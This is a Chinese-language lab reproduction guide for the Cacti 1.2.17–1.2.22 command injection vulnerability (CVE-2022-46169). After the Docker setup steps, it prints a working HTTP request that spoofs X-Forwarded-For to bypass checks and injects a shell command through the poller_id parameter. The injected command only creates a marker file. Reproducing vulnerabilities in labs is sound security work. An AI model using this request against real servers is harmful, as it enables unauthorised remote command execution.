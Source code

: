 # Cacti 前台命令注入漏洞（CVE-2022-46169）

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf>
- <https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A>

## 漏洞环境

执行如下命令启动一个Cacti 1.2.22版本服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：

![](1.png)

这个漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器。所以，我们在Cacti后台首页创建一个新的Graph：

![](2.png)

选择的Graph Type是“Device - Uptime”，点击创建：

![](3.png)

## 漏洞利用

完成上述初始化后，我们切换到攻击者的角色。作为攻击者，发送如下数据包：

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![](4.png)

虽然响应包里没有回显，但是进入容器中即可发现`/tmp/success`已成功被创建：

![](5.png)
